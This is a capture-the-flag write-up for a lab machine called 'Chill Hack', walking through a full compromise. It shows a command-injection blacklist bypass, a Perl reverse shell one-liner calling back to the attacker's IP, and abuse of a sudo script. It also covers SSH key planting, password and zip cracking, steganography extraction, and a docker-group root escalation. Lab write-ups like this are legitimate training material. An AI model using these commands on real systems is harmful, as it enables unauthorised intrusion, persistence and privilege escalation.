 # Chill Hack Writeup


Lets start with a simple `nmap -A -sS -T4 10.10.233.73` we get the following output

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.59.41
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
|_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Game Info
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

As we can see there is a webserver running so lets run gobuster and check it out at the same time. Okay so the website doesnt seem very usefull but gobuster found 
`/secret (Status: 301) [Size: 313] [--> http://10.10.233.73/secret/]`

Seems like we can execute commands on it, okay so after testing some commands there is a filter. Commands like `ls` return a 'Are you a Hacker?' page and commands like `echo hi` return the ouput with no problem so we can try hiding malicious intent in `echo`

Which did not take me long to find using `echo *` we can see the directories contents!
`images index.php` Lets try reading the index.php file so we can see the conditions that block our commands and avoid them! Using  ```echo `cat index.php` ``` we can spawn the file and if we now view source we find:
```
<!--?php if(isset($_POST['command'])) { $cmd = $_POST['command']; $store = explode(" ",$cmd); $blacklist = array('nc', 'python', 'bash','php','perl','rm','cat','head','tail','python3','more','less','sh','ls'); for($i=0; $i<count($store); $i++) { for($j=0; $j<count($blacklist); $j++) { if($store[$i] == $blacklist[$j]) {?-->
```

So we now know we cant use without echo the following commands:
`nc,python,bash,php,perl,rm,cat,head,tail,python3,more,less,sh,ls`

If we run `nc -lnvp 9999` on our Attack Machine we listen for a reverse shell and after running the following command we have a shell! I found this on [Pentest Monkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
```
echo `perl -e 'use Socket;$i="YOUR_IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`
```

Before doing anything run `python3 -c 'import pty; pty.spawn("/bin/sh")'` to spawn a terminal with more capibilities. After looking around for a while I couldnt find much except some mySQL creds, but before checking that out I ran a [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) and got some intresting output:

```
User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

Content of `.helpline.sh`

```
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```

So we see that the `msg` variable will be executed, and send errors to /dev/null. So if we just run the script with `sudo -u apaar /home/apaar/.helpline.sh` we can now inside the script run commands under the `apaar` user. Spawn a better shell `python3 -c 'import pty;pty.spawn("/bin/bash")'` once again then we can navigate to `/home/apaar/` and `cat local.txt` which gives us the User Flag! Good job we have made it this far now time for privesc!

We can also gain ssh access by adding our public ssh key to `.ssh/authorized_keys` with `echo <YOUR SSH PUB KEY> >> .ssh/authorized_keys` and now using `ssh apaar@<VICTIM_IP>` on our attack machine we can login as apaar and get a proper shell!

Lets go back to the mySQL we found earlier in `/var/www/files/index.php` and login with `mysql -u root -p -D webportal`

![[Screen Shot 2022-02-10 at 6.05.57 PM.png]]

After running `show tables;` and  `SELECT * from users;` we can see we get the md5 hash of anurodh account, so lets crack that using [Crack Station](https://crackstation.net/) ![[https://github.com/Gomez0015/CTF-Writeups/📄%20CTF%20Writeups/images/Screen Shot 2022-02-10 at 6.18.23 PM.png]] and we get a postive result! Lets try loging in with ssh now.

Did not work. But I did see something intresting earlier in the `/var/www/files/hacker.php` file:

```
<center>
        <img src = "images/hacker-with-laptop_23-2147985341.jpg"><br>
        <h1 style="background-color:red;">You have reached this far. </h2>
        <h1 style="background-color:black;">Look in the dark! You will find your answer</h1>
</center>
```

So lets try looking deeper into the image. To be able to download the image to our machine lets use the ftp service we saw earlier, I had not even noticed that there was an anonymous login available which gave this `note.txt`
```
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

We figured it out alone anyways so didnt miss anything huge. After trying to use ftp and it not working I realised we can just use apaar with the scp command and download the file  `scp apaar@<VICTIM_IP>:/var/www/files/images/hacker-with-laptop_23-2147985341.jpg .`

Now lets run steghide on it `steghide --info hacker-with-laptop_23-2147985341.jpg` after running this command with an empty password we can see a `backup.zip` file hidden inside, so lets extract it! `steghide extract -sf hacker-with-laptop_23-2147985341.jpg`

After extracting it if we try to `unzip backup.zip` it asks for a passphrase so we can try the md5 hashes we cracked earlier. None of them worked so I decided to use john,
first run `zip2john backup.zip | tee hash` to generate a hash file and then we can crack it using `john hash --wordlist=/usr/share/wordlists/rockyou.txt` 
![[Screen Shot 2022-02-10 at 6.27.07 PM.png]] And in a couple seconds we get a successfull password.

Upon using `cat source_code.php` we can see an intresting line:
`if(base64_encode($password) == "IWQwbnRLbjB3bVlwQHNzdzByZA==")`
We directly know its base64 encoded and can decode it easily which gives us
`!d0ntKn0wmYp@ssw0rd` Once again lets try logging in to ssh with this password.

It Worked! Finally we have a new user and new permissions!

After running anothe linPEAS (yes ik im addicted to laziness), we get 2 very very promising results for privesc:

```
Docker socket /var/run/docker.sock is writable
uid=1002(manurodh) gid=1002(manurodh) groups=1002(manurodh),999(docker)
```

So after looking up some privesc with docker I found the [GTFOBins](https://gtfobins.github.io/gtfobins/docker/) reference, which with 1 easy command can spawn a root shell! 
`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

Good Game! Took a while but we got there! Hope you guys enjoyed, I learned alot along the way and hopefully I didnt do to badly, cya for the next one.


